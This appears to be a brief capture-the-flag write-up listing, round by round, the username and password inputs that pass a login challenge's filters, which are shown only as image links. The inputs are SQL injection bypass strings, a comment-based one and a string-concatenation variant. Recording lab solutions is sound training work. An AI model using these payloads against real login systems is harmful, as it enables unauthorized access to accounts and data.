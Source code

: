   ROUND 1:

  - Filter : ![image](https://github.com/nhattanhh/CTF/assets/130430279/9da23330-d2fd-4562-9d09-735e78207a36)
  - Username: admin' --
  - Password: 1
    
  ROUND 2,3:

  - Filter : ![image](https://github.com/nhattanhh/CTF/assets/130430279/81869c71-59d9-4326-ae1b-3b82cc4a9401)
  - Username: admin' --
  - Password: 1

  ROUND 4:

  - Filter : ![image](https://github.com/nhattanhh/CTF/assets/130430279/140b2fe4-0e73-4011-aea9-e70f1d90ff41)
  - Username: ad'||'min';
  - Password: 1.

  ROUND 5:

  - Filter : ![image](https://github.com/nhattanhh/CTF/assets/130430279/76a526fd-add6-4cea-8075-9582fb22701c)
  - Username: ad'||'min';
  - Password: 1.
    
